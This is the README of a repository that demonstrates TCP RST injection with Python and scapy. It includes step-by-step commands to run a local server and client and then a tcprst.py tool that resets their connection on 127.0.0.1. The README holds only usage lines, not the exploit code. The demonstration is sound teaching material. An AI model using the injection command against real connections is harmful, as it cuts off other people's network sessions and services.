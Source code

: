 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:

$ indicates command to be executed

	 indicates output on the console


start the server

$ python server.py
    TCP Server binding to port 5000

start the client

$ python client.py

record the port number the server reports (47413 in the running example)

    I got a connection from 127.0.0.1:47413

start the injection

$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413

wait until the server and the client exit with a message like:

    Traceback (most recent call last):
      File "server.py", line 15, in <module>
        data = client_socket.recv(512)
    socket.error: [Errno 104] Connection reset by peer

done!

More info on TCP/RST injection:
http://kerneltrap.org/node/3072
http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
http://packetstormsecurity.org/files/38708/tcprst.c.html